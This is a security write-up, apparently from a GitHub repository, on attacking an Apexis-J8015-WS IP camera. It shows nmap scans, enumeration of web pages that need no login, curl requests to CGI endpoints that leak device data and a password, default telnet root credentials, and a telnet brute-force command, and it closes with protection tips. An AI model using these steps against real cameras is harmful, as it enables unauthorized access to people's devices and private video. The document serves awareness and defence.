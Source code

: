 # Apexis-J8015-WS
> 22-06-2021

## Desctiption
The Apexis-J8015-WS is a cheap PTZ IP-CAMERA(Factory settings)

### I/O

- 5V(continuous) 2A
- Microphone INPUT 2.5mm
- Audio Output 2.5mm
- RP-SMA Female
- 2 GPIO PIN
- 2 "Alarm" PIN
- 1 RJ-45 Ethernet port

## Hacking

### Basic web research
https://seclists.org/fulldisclosure/2017/Mar/23

Default WEB credentials:
- Username: `admin`
- Password: none

### Nmap Scan

#### Host Discovery
Let's run some nmap scans
```bash
nmap -O IP-CAMERA
```
```
MAC Address: 44:33:XX:XX:XX:XX (Shenzhen Bilian electronic)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
```

#### Port Scanning
```bash
nmap -sC -sV IP-CAMERA
```
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  BusyBox telnetd
80/tcp open  http    mini_httpd 1.19 19dec2003
|_http-server-header: mini_httpd/1.19 19dec2003
|_http-title: Site doesn't have a title (text/html).
```

### IP-CAMERA Web server

#### Basic enumaration

Using the `ApexisURLEnum.py` script with the `enumlist.txt` we can found some interesting datas!
```bash
python3 ApexisURLEnum.py enumlist.txt IP-CAMERA 80
```
Here are some valid urls that don't requires login
```
[+] http://IP-CAMERA:80/IPCameramon.htm
[+] http://IP-CAMERA:80/lang.js
[+] http://IP-CAMERA:80/alias.htm
[+] http://IP-CAMERA:80/rebootme.htm
[+] http://IP-CAMERA:80/reboot.htm
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/recpath.htm
[+] http://IP-CAMERA:80/version_conf
[+] http://IP-CAMERA:80/ddns.htm
[+] http://IP-CAMERA:80/upgrade.htm
[+] http://IP-CAMERA:80/alarm.htm
[+] http://IP-CAMERA:80/upnp.htm
[+] http://IP-CAMERA:80/light.htm
[+] http://IP-CAMERA:80/test_ftp.htm
[+] http://IP-CAMERA:80/status.htm
[+] http://IP-CAMERA:80/IPCameramob.htm
[+] http://IP-CAMERA:80/p2p.htm
[+] http://IP-CAMERA:80/msn.htm
[+] http://IP-CAMERA:80/get_tutk_account.cgi
[+] http://IP-CAMERA:80/backup.htm
[+] http://IP-CAMERA:80/test_mail.htm
[+] http://IP-CAMERA:80/vlc_noplugin.htm
[+] http://IP-CAMERA:80/user.htm
[+] http://IP-CAMERA:80/public.js
[+] http://IP-CAMERA:80/log.htm
[+] http://IP-CAMERA:80/VLC_live.htm
[+] http://IP-CAMERA:80/login.htm
[+] http://IP-CAMERA:80/adsl.htm
[+] http://IP-CAMERA:80/VLC_IPCameralive.htm
[+] http://IP-CAMERA:80/main.htm
[+] http://IP-CAMERA:80/decoder.htm
[+] http://IP-CAMERA:80/mail.htm
[+] http://IP-CAMERA:80/monitor.htm
[+] http://IP-CAMERA:80/IPCameralive.htm
[+] http://IP-CAMERA:80/showocx.js
[+] http://IP-CAMERA:80/live.htm
[+] http://IP-CAMERA:80/ip.htm
[+] http://IP-CAMERA:80/datetime.htm
[+] http://IP-CAMERA:80/multidev.htm
[+] http://IP-CAMERA:80/ptz.htm
[+] http://IP-CAMERA:80/wireless.htm
[+] http://IP-CAMERA:80/ftp.htm
[+] http://IP-CAMERA:80/index.htm
[+] http://IP-CAMERA:80/snapshot.htm
```
#### Informataion Gathering
Now we can see 2 `.cgi` files
```
[+] http://IP-CAMERA:80/get_status.cgi
[+] http://IP-CAMERA:80/get_tutk_account.cgi
```
##### Camera's Informations
```bash
curl http://IP-CAMERA:80/get_status.cgi
```
```
var id='4433XXXXXXXX';
var sys_ver='17.X.X.XX';
var app_ver='30.XX.X.XX';
var alias='IP-CAMERA';
var now=1624537624;
var tz=-3600;
var alarm_status=2;
var ddns_status=29;
var oray_type=0;
var wifi_status=1;
var upnp_status=0;
var msn_status=0;
var ddns_host='XXXX.XXXX.org';
```
##### Possible password leak
```bash
curl http://IP-CAMERA:80/get_tutk_account.cgi
```
```
var ret_tutk_guid='';
var ret_tutk_user='';
var ret_tutk_pwd='000000';
```

### IP-CAMERA Telnet
Now that we have done some research on the IP-CAMERA web server, let's have a look to telnet.

```bash
telnet IP-CAMERA 23
```
```
Trying IP-CAMERA...
Connected to IP-CAMERA.
Escape character is '^]'.

(none) login: 
```

The default telnet credentials for the Apexis-J8015-WS IP camera are:
```
Login: root
Password: 123456
```

But the credentials could be different. Let's do a bit of brute force oin the camera telnet.
```bash
nmap -p 23 --script telnet-brute --script-args userdb=Misc/bruteforce-lists/userlist.txt,passdb=Misc/bruteforce-lists/passlist.txt,telnet-brute.timeout=8s IP-CAMERA
```
```
Host is up (0.0032s latency).

PORT   STATE SERVICE
23/tcp open  telnet
| telnet-brute: 
|   Accounts: 
|     root:123456 - Valid credentials
|_  Statistics: Performed 103 guesses in 33 seconds, average tps: 2.7

Nmap done: 1 IP address (1 host up) scanned in 33.33 seconds
```

## Conslusion (for the moment)
With a bit of **hacking** skills, we now know that the Apexis-J8015-WS is vulnerable!
There is a lots of other things to say about this IP camera like:
- DDNS
- CGI scripts
- Wifi Scanning using the camera(yes, you can...)
- Live stream
- Audio
- Etc...

We have done:
- Information Gathering
- Nmap Scans
- File Enumaration
- Brute Force
  
Using these: leaks, vulnerabilities, and misconfigurations, we now have acces to a IP camera.
This could be dangerous for your privacy or enterprise.
A simple cheap or misconfigured IP camera could become a real weapon!
An attacker could use this camera to enter your network, enter your privacy, and use this device against you.

### How to protect?
- Buy a good quality camera
- Disable all unused features such as: DDNS, WI-FI discovery, Remote access, Telnet, Etc...
- Set strong passwords
- Upgrade your firmware when it's possible
- Use LAN rather than WI-FI when it's possible
- Check logs as often as you can

Thank you for reading!